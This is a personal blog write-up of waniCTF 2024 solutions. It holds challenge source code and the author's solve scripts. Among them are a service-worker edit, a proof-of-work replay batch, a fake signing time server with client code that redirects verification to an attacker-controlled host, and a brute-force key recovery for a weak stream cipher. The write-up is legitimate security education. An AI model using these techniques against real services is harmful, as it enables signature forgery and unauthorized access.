

+++
title = 'waniCTF 2024 Personal Writeup'
date = 2024-06-24T20:50:48+08:00
summary = 'Why Japanese prefer golang?'
categories = ["CTF"]
tag = ["Writeup"]
draft = false
+++

> I played waniCTF 2024 as a member of H4aG4au who ranked 22nd. I solved 3 web, 1 crypto and 5 misc problems. Here are the solutions for the problems I solved.

## Web
really really hard

### Bad_Worker
> Link: [https://web-bad-worker-lz56g6.wanictf.org/](https://web-bad-worker-lz56g6.wanictf.org/)

Enter `Fetch Data`，press F12，in `Source` of inspector of browser to open `service-worker.js` to view the source script，in function `onFetch`, change
```python
if (request.url.toString().includes("FLAG.txt")) {
     request = "DUMMY.txt";
}
```
into
```python
if (request.url.toString().includes("FLAG.txt")) {
     request = "FLAG.txt";
}
```

press the button again to get the flag

`FLAG{pr0gr3ssiv3_w3b_4pp_1s_us3fu1}`

### pow
> Link: [https://web-pow-lz56g6.wanictf.org/](https://web-pow-lz56g6.wanictf.org/)

Spotted that after a while, the counter start to increase, meaning that it comes up with an answer. Spotted also that the server won't check if the answer is sent before, so we can just repeat the same answer.

Beware that the server limits the request rates, so we need to pack them together into an array.

```javascript
let a = [];

for(let i = 0; i < 20000; i++) {
    a.push('2862152');
    a.push('7844289');
    a.push('45707619');
    a.push('69994497');
    a.push('107604052');
    a.push('115538868');
}

for(let i = 0; i < 10; i++) {
    send(a);
}
```

### One Day One Letter
> Link: [https://web-one-day-one-letter-lz56g6.wanictf.org/](https://web-one-day-one-letter-lz56g6.wanictf.org/)
>
> Attachments: `content-server.py`, `time-server.py`

content-server.py
```python
import json
import os
from datetime import datetime
from http import HTTPStatus
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.request import Request, urlopen
from urllib.parse import urljoin

from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

FLAG_CONTENT = os.environ.get('FLAG_CONTENT', 'abcdefghijkl')
assert len(FLAG_CONTENT) == 12
assert all(c in 'abcdefghijklmnopqrstuvwxyz' for c in FLAG_CONTENT)

def get_pubkey_of_timeserver(timeserver: str):
    req = Request(urljoin('https://' + timeserver, 'pubkey'))
    with urlopen(req) as res:
        key_text = res.read().decode('utf-8')
        return ECC.import_key(key_text)

def get_flag_hint_from_timestamp(timestamp: int):
    content = ['?'] * 12
    idx = timestamp // (60*60*24) % 12
    content[idx] = FLAG_CONTENT[idx]
    return 'FLAG{' + ''.join(content) + '}'

class HTTPRequestHandler(BaseHTTPRequestHandler):
    def do_OPTIONS(self):
        self.send_response(200, "ok")
        self.send_header('Access-Control-Allow-Origin', '*')
        self.send_header('Access-Control-Allow-Methods', 'POST, OPTIONS')
        self.send_header("Access-Control-Allow-Headers", "X-Requested-With")
        self.send_header("Access-Control-Allow-Headers", "Content-Type")
        self.end_headers()

    def do_POST(self):
        try:
            nbytes = int(self.headers.get('content-length'))
            body = json.loads(self.rfile.read(nbytes).decode('utf-8'))

            timestamp = body['timestamp'].encode('utf-8')
            signature = bytes.fromhex(body['signature'])
            timeserver = body['timeserver']

            pubkey = get_pubkey_of_timeserver(timeserver)
            h = SHA256.new(timestamp)
            verifier = DSS.new(pubkey, 'fips-186-3')
            verifier.verify(h, signature)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            dt = datetime.fromtimestamp(int(timestamp))
            res_body = f'''<p>Current time is {dt.date()} {dt.time()}.</p>
<p>Flag is {get_flag_hint_from_timestamp(int(timestamp))}.</p>
<p>You can get only one letter of the flag each day.</p>
<p>See you next day.</p>
'''
            self.wfile.write(res_body.encode('utf-8'))
            self.requestline
        except Exception:
            self.send_response(HTTPStatus.UNAUTHORIZED)
            self.end_headers()

handler = HTTPRequestHandler
httpd = HTTPServer(('', 5000), handler)
httpd.serve_forever()
```
time-server.py
```python
from http import HTTPStatus
from http.server import BaseHTTPRequestHandler, HTTPServer
import json
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

class HTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/pubkey':
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = pubkey
            self.wfile.write(res_body.encode('utf-8'))
            self.requestline
        else:
            timestamp = str(int(time.time())).encode('utf-8')
            h = SHA256.new(timestamp)
            signer = DSS.new(key, 'fips-186-3')
            signature = signer.sign(h)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/json; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = json.dumps({'timestamp' : timestamp.decode('utf-8'), 'signature': signature.hex()})
            self.wfile.write(res_body.encode('utf-8'))

handler = HTTPRequestHandler
httpd = HTTPServer(('', 5001), handler)
httpd.serve_forever()
```

As in the code of content server, we get one character of the flag each day, but the address of timeserver is given by the client-side script, aka, user's request. So we can modify the `timeserver` to our own malicious server to fake the timestamp!

Here's the fake server code:
```python
from http import HTTPStatus
from http.server import BaseHTTPRequestHandler, HTTPServer
import json, time, ssl
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

class HTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/pubkey':
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = pubkey
            self.wfile.write(res_body.encode('utf-8'))
            self.requestline
        else:
            second = int(time.time()) % 60 # refresh timestamp by one day for each second
            timestamp = str(int(time.time()) + second * 3600 * 24).encode('utf-8')
            h = SHA256.new(timestamp)
            signer = DSS.new(key, 'fips-186-3')
            signature = signer.sign(h)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/json; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = json.dumps({'timestamp' : timestamp.decode('utf-8'), 'signature': signature.hex()})
            self.wfile.write(res_body.encode('utf-8'))

handler = HTTPRequestHandler
httpd = HTTPServer(('', 5001), handler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile='cert.pem', keyfile='key.pem', server_side=True)
httpd.serve_forever()
```

The trap is that the certificate cannot be self-signed or not trusted by python's httpserver. I finally find the certificate issued by [Let's Encrypt](https://letsencrypt.org/) with the certificate trust chain from ISRG Root X1, the same as the one used by the real time server. The certificate is free of charge, but you still need a domain name to get it. Then, you can just simply send the request to the content server with fake timeserver address to get the flag.

```javascript
function getTime() {
    return new Promise((resolve) => {
        const xhr = new XMLHttpRequest();
        xhr.open('GET', 'https://' + 'yourserver.com'); // fill in your server
        xhr.send();
        xhr.onload = () => {
            if(xhr.readyState == 4 && xhr.status == 200) {
                resolve(JSON.parse(xhr.response))
            }
        };
    });
}

function getContent() {
    return new Promise((resolve) => {
        getTime()
        .then((time_info) => {
            const xhr = new XMLHttpRequest();
            xhr.open('POST', 'https://' + contentserver);
            xhr.setRequestHeader('Content-Type', 'application/json')
            const body = {
                timestamp : time_info['timestamp'],
                signature : time_info['signature'],
                timeserver : 'yourserver.com' // fill in your server
            };
            xhr.send(JSON.stringify(body));
            xhr.onload = () => {
                if(xhr.readyState == 4 && xhr.status == 200) {
                    resolve(xhr.response);
                }
            };
        });
    });
}

initialize(); // call it 12 times to get full flag_enc
```

`FLAG{lyingthetime}`

## Crypto
teammates solved easy ones, left me the hard one
### dance
> Attachments: `chall.py`, `mycipher.py`, `utils.py`, `output.txt`
```python
from mycipher import MyCipher
import hashlib
import datetime
import random

isLogged = False
current_user = ''
d = {}

def make_token(data1: str, data2: str):
    sha256 = hashlib.sha256()
    sha256.update(data1.encode())
    right = sha256.hexdigest()[:20]
    sha256.update(data2.encode())
    left = sha256.hexdigest()[:12]
    token = left + right
    return token

def main():
    print('Welcome to the super secure encryption service!')
    while True:
        print('Select an option:')
        print('1. Register')
        print('2. Login')
        print('3. Logout')
        print('4. Encrypt')
        print('5. Exit')
        choice = input('> ')
        if choice == '1':
            Register()
        elif choice == '2':
            Login()
        elif choice == '3':
            Logout()
        elif choice == '4':
            Encrypt()
        elif choice == '5':
            print('Goodbye!')
            break
        else:
            print('Invalid choice')

def Register():
    global d
    username = input('Enter username: ')
    if username in d:
        print('Username already exists')
        return
    dt_now = datetime.datetime.now()
    minutes = dt_now.minute
    sec = dt_now.second
    data1 = f'user: {username}, {minutes}:{sec}'
    data2 = f'{username}'+str(random.randint(0, 10))
    d[username] = make_token(data1, data2)
    print('Registered successfully!')
    print('Your token is:', d[username])
    return

def Login():
    global isLogged
    global d
    global current_user
    username = input('Enter username: ')
    if username not in d:
        print('Username does not exist')
        return
    token = input('Enter token: ')
    if d[username] != token:
        print('Invalid token')
        return
    isLogged = True
    current_user = username
    print(f'Logged in successfully! Hi {username}!')
    return

def Logout():
    global isLogged
    global current_user
    isLogged = False
    current_user = ''
    print('Logged out successfully!')
    return

def Encrypt():
    global isLogged
    global current_user
    if not isLogged:
        print('You need to login first')
        return
    token = d[current_user]
    sha256 = hashlib.sha256()
    sha256.update(token.encode())
    key = sha256.hexdigest()[:32]
    nonce = token[:12]
    cipher = MyCipher(key.encode(), nonce.encode())
    plaintext = input('Enter plaintext: ')
    ciphertext = cipher.encrypt(plaintext.encode())
    print('username:', current_user)
    print('Ciphertext:', ciphertext.hex())
    return

if __name__ == '__main__':
    main()
```

```python
from utils import *

class MyCipher:
    def __init__(self, key: bytes, nonce: bytes):
        self.key = key
        self.nonce = nonce
        self.counter = 1
        self.state = List[F2_32]

    def __quarter_round(self, a: F2_32, b: F2_32, c: F2_32, d: F2_32):
        a += b; d ^= a; d <<= 16
        c += d; b ^= c; b <<= 12
        a += b; d ^= a; d <<= 8
        c += d; b ^= c; b <<= 7
        return a, b, c, d
    
    def __Qround(self, idx1, idx2, idx3, idx4):
        self.state[idx1], self.state[idx2], self.state[idx3], self.state[idx4] = \
            self.__quarter_round(self.state[idx1], self.state[idx2], self.state[idx3], self.state[idx4])

    def __update_state(self):
        for _ in range(10):
            self.__Qround(0, 4, 8, 12)
            self.__Qround(1, 5, 9, 13)
            self.__Qround(2, 6, 10, 14)
            self.__Qround(3, 7, 11, 15)
            self.__Qround(0, 5, 10, 15)
            self.__Qround(1, 6, 11, 12)
            self.__Qround(2, 7, 8, 13)
            self.__Qround(3, 4, 9, 14)

    def __get_key_stream(self, key: bytes, counter: int, nonce: bytes) -> bytes:
        constants = [F2_32(x) for x in struct.unpack('<IIII', b'expand 32-byte k')]
        key = [F2_32(x) for x in struct.unpack('<IIIIIIII', key)]
        counter = [F2_32(counter)]
        nonce = [F2_32(x) for x in struct.unpack('<III', nonce)]
        self.state = constants + key + counter + nonce
        initial_state = self.state[:]
        self.__update_state()
        self.state = [x + y for x, y in zip(self.state, initial_state)]
        return serialize(self.state)
    
    def __xor(self, a: bytes, b: bytes) -> bytes:
        return bytes([x ^ y for x, y in zip(a, b)])

    def encrypt(self, plaintext: bytes) -> bytes:
        encrypted_message = bytearray(0)

        for i in range(len(plaintext)//64):
            key_stream = self.__get_key_stream(self.key, self.counter + i, self.nonce)
            encrypted_message += self.__xor(plaintext[i*64:(i+1)*64], key_stream)

        if len(plaintext) % 64 != 0:
            key_stream = self.__get_key_stream(self.key, self.counter + len(plaintext)//64, self.nonce)
            encrypted_message += self.__xor(plaintext[(len(plaintext)//64)*64:], key_stream[:len(plaintext) % 64])

        return bytes(encrypted_message)
```

```python
 import struct
from typing import List

class F2_32:
    def __init__(self, val: int):
        self.val = val & 0xffffffff
    def __add__(self, other):
        return F2_32(self.val + other.val)
    def __sub__(self, other):
        return F2_32(self.val - other.val + 0xffffffff + 1)
    def __xor__(self, other):
        return F2_32(self.val ^ other.val)
    def __lshift__(self, nbit: int):
        left = (self.val << nbit) & 0xffffffff
        right = (self.val & 0xffffffff) >> (32 - nbit)
        return F2_32(left | right)
    def __rshift__(self, nbit: int):
        left = (self.val & 0xffffffff) >> nbit
        right = (self.val << (32 - nbit)) & 0xffffffff
        return F2_32(left | right)
    def __repr__(self):
        return hex(self.val)
    def __int__(self):
        return int(self.val)
    
def serialize(state: List[F2_32]) -> List[bytes]:
    return b''.join([ struct.pack('<I', int(s)) for s in state ])
```
output.txt
```plaintext
username = 'gureisya'
ciphertext = '061ff06da6fbf8efcd2ca0c1d3b236aede3f5d4b6e8ea24179'
```

The encryption seems complicated, but from the skeleton of the scheme, we can see that it's some kind of n-round network. However, the design is vulnerable that unlike the SPN network in AES, as you can see from the outputs of `chall.py`. When you change one character in the plaintext, only one bytes in the ciphertext changes. This means that the encryption is deterministic, and we can use this property to recover the key.

So the exploitation is simple two steps:
1. Brute force the token to get key and nonce, with the known plaintext `FLAG{`
2. Brute force the rest of the flag

```python
from mycipher import MyCipher
import hashlib
from string import ascii_letters, digits

wordlist = ascii_letters + digits + '_!@#$%^&*'
flag_enc = '061ff06da6fbf8efcd2ca0c1d3b236aede3f5d4b6e8ea24179'
username = 'gureisya'

flag = 'FLAG{???????????????????}'
flag_list = list(flag)

def make_token(data1: str, data2: str):
    sha256 = hashlib.sha256()
    sha256.update(data1.encode())
    right = sha256.hexdigest()[:20]
    sha256.update(data2.encode())
    left = sha256.hexdigest()[:12]
    token = left + right
    return token

def find_token():
        for minutes in range(61):
                for sec in range(61):
                        for i in range(11):
                                data1 = f'user: {username}, {minutes}:{sec}'
                                data2 = f'{username}' + str(i)
                                token = make_token(data1, data2)
                                sha256 = hashlib.sha256()
                                sha256.update(token.encode())
                                key = sha256.hexdigest()[:32]
                                nonce = token[:12]
                                cipher = MyCipher(key.encode(), nonce.encode())
                                plaintext = flag
                                ciphertext = cipher.encrypt(plaintext.encode())
                                if ciphertext.hex()[:6] == flag_enc[:6]:
                                        return token

def find_flag():
        token = find_token()
        # token = '6ffb71a5c2fae824d30343f1dcf785f6'
        sha256 = hashlib.sha256()
        sha256.update(token.encode())
        key = sha256.hexdigest()[:32]
        nonce = token[:12]
        cipher = MyCipher(key.encode(), nonce.encode())

        for i in range(5, len(flag) - 1):
                for c in wordlist:
                        flag_list[i] = c
                        plaintext = ''.join(flag_list)
                        ciphertext = cipher.encrypt(plaintext.encode())
                        if ciphertext.hex()[i * 2: i * 2 + 2] == flag_enc[i * 2: i * 2 + 2]:
                                break

        print(''.join(flag_list))

if __name__ == '__main__':
        find_flag()
```

## Misc
the misc problems are trival :(
### tiny_usb
> Attachments: `chal_tiny_usb.iso`

If you're Mac user, the image can be mounted with double click.

If you're Linux user, you can mount the image with the following command:
```bash
mount chal_tiny_usb.iso /mnt/tinyusb
cd /mnt/tinyusb
```
Then you can see the flag picture.
`FLAG{hey_i_just_bought_a_usb}`

### Surveillance_of_sus
> Attachments: `Cache_chal.bin`

It's a `RDP Bitmap Chache` file in `bin` format, extract with [bmc-tools](https://github.com/ANSSI-FR/bmc-tools)
```bash
python3 bmc-tools.py -s Cache_chal.bin -d cache
cd cache
```
Then you can see the picture pieces in bmp format. Next is to combine them to get the full picture. But I spotted the suspicious flag picture in the pieces, so I just copied it out.


`FLAG{RDP_is_useful_yipeee}`

### codebreaker
> Attachments: `chal_codebreaker.png`


Damaged QR Code, can be repaired by [QRazyBox](https://qr.miaotony.xyz/). A little bit boring.

Count the blocks to know that it's 29x29, and we fill in what we saw.


After that, click the purple part to select the `Format Info Pattern`, and we found that `H7` error correction level is fit. All we can do for the rest is to deduct the damaged part from what is known.



We have Reed-Soloman Decoder in toolbox of QRazyBox to do the error correction. Without any further configuration, we can get the flag


### I_wanna_be_a_streamer
> Attachments: `file.pcap`

A H.264 video stream traffic. To extract the video, firstly, set the `RTP payload type` to `96` in settings of Wireshark, then use the [plugin](https://github.com/hongch911/WiresharkPlugin) to export the H.264 stream, and save as video. Open it with any video player, and you can see the flag.


### tiny_10px
> Attachments: `chal_tiny_10px.jpg`

A 10x10 image with 42 KB. There must be some information hidden in it. Try binwalk with no further result coming out, I guess the stego is done by changing the width and height. So I tried to guess the width and height, and finally, it's 0x9F by 0x9F.


and final flag picture


## Epilogue

The challenge is quite interesting, appreciate the organizer's work. I hope I can have more time to solve more problems next time. Thanks for reading!

